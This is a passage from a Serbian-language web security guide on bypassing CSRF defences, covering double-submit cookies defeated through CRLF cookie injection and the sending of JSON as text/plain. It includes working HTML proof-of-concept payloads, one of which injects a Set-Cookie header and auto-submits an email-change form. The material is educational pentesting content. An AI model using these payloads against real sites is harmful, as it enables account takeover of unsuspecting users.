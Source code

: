 Aplikacije mogu implementirati zaštitu od CSRF-a dupliranjem tokena i u kolačiću i u parametru zahteva ili postavljanjem CSRF kolačića i proverom da li token poslat na backend odgovara kolačiću. Aplikacija validira zahteve proverom da li token u parametru zahteva odgovara vrednosti u kolačiću.

Međutim, ovaj metod je ranjiv na CSRF napade ako veb sajt ima propuste koji omogućavaju napadaču da postavi CSRF kolačić u pretraživaču žrtve, kao što je CRLF ranjivost. Napadač može iskoristiti ovo učitavanjem obmanjujuće slike koja postavlja kolačić, a zatim pokretanjem CSRF napada.

U nastavku je primer kako bi napad mogao biti struktuiran:

```html
<html>
<!-- CSRF Proof of Concept - generated by Burp Suite Professional -->
<body>
<script>history.pushState('', '', '/')</script>
<form action="https://example.com/my-account/change-email" method="POST">
<input type="hidden" name="email" value="asd&#64;asd&#46;asd" />
<input type="hidden" name="csrf" value="tZqZzQ1tiPj8KFnO4FOAawq7UsYzDk8E" />
<input type="submit" value="Submit request" />
</form>
<img src="https://example.com/?search=term%0d%0aSet-Cookie:%20csrf=tZqZzQ1tiPj8KFnO4FOAawq7UsYzDk8E" onerror="document.forms[0].submit();"/>
</body>
</html>

```

{% hint style="info" %}
Imajte na umu da ako je **csrf token povezan sa sesijskim kolačićem ovaj napad neće uspeti** jer će vam biti potrebno da postavite žrtvi svoju sesiju, i stoga ćete napadati sami sebe.
{% endhint %}

### Promena Content-Type

Prema [**ovome**](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#simple\_requests), kako bi se **izbegli preflight** zahtevi koristeći **POST** metodu, dozvoljene vrednosti Content-Type su:

* **`application/x-www-form-urlencoded`**
* **`multipart/form-data`**
* **`text/plain`**

Međutim, imajte na umu da se **logika servera može razlikovati** u zavisnosti od korišćenog Content-Type, pa biste trebali isprobati navedene vrednosti i druge poput **`application/json`**_**,**_**`text/xml`**, **`application/xml`**_._

Primer (sa [ovde](https://brycec.me/posts/corctf\_2021\_challenges)) slanja JSON podataka kao text/plain:

```html
<html>
<body>
<form id="form" method="post" action="https://phpme.be.ax/" enctype="text/plain">
<input name='{"garbageeeee":"' value='", "yep": "yep yep yep", "url": "https://webhook/"}'>
</form>
<script>
form.submit();
</script>
</body>
</html>
```
